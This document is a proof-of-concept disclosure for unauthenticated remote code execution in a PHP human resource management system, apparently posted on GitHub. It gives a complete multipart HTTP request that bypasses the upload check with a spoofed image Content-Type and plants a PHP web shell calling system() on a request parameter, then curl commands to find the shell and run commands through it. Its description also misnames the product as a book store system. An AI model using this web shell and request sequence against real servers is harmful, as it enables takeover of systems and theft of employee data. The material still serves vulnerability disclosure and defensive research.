




# Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass the upload file restriction and execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.



### 2. Upload web shell without authentication

At `Add Employee` function, we discover an Profile Image upload button


After analysis the source code, we know that `/hrm/controller/employee.php` allow an unauthorized user access and upload image file.

Let's upload file webshell `leecybersec.php` with `Content-Type: image/jpg` without any authentication.

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```



### 3. Find the uploaded webshell file and get RCE

The webshell will be added with some random number in the name.



Go to /hrm/image/ and get webshell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

